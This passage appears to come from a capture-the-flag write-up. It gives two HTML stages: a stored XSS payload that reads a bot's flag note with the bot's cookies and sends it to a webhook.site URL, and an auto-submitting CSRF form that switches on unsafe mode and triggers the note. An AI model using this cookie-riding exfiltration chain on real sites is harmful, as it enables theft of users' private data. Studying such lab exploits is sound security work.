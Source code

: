 ```html
    </form>
    <script>
        const xssPayload = `
            <p>XSS note is active!</p>
            <script>
                async function stealFlag() {
                    try {
                        // Fetch the bot's first note (the flag note)
                        // This runs in the bot's browser on 127.0.0.1:7189
                        // so it's a same-origin request with bot's cookies.
                        // The /notes/1 page will render the flag unescaped
                        // because 'isUnsafe' will be true for the bot's session.
                        const response = await fetch('/notes/1'); 
                        const noteHtml = await response.text();

                        const parser = new DOMParser();
                        const doc = parser.parseFromString(noteHtml, 'text/html');
                        const flagElement = doc.querySelector('.note-content');
                        let flag = 'FLAG_NOT_FOUND';
                        if (flagElement) {
                            flag = flagElement.textContent.trim();
                        }
                        
                        // Send it to your server
                        fetch('//webhook.site/fb0d5679-6526-4c8a-8e5a-85b23740bdb7/?flag=' + encodeURIComponent(flag));

                    } catch (e) {
                        fetch('//webhook.site/fb0d5679-6526-4c8a-8e5a-85b23740bdb7/?error=' + encodeURIComponent(e.toString()));
                    }
                }
                stealFlag();
            <\/script> 
        `; // The <\/script> is to avoid breaking the outer script tag if this were inline.
        document.getElementById('xss_payload_content').value = xssPayload;
    </script>
</body>

</html>
```
Then, let it visit the malicious note so under same origin the script can read the note and send to us with a prefetch request. Since `/prefs/unsafe` automatically redirects to the note ID submitted, there is no need for additional logic.
```html
<!DOCTYPE html>
<html>

<head>
    <title>Stage 2: Trigger XSS</title>
</head>

<body onload="document.csrfForm.submit()">
    <p>Stage 2: Enabling unsafe mode and viewing XSS note...</p>
    <form name="csrfForm" method="POST" action="http://127.0.0.1:7189/prefs/unsafe">
        <input type="hidden" name="enable" value="1">
        <!-- This 'id' should be the user_note_id of the bot_xss_note created in Stage 1.
             Assuming it's the second note the bot creates for itself, its id will be 2. -->
        <input type="hidden" name="id" value="3">
    </form>
</body>

</html>
```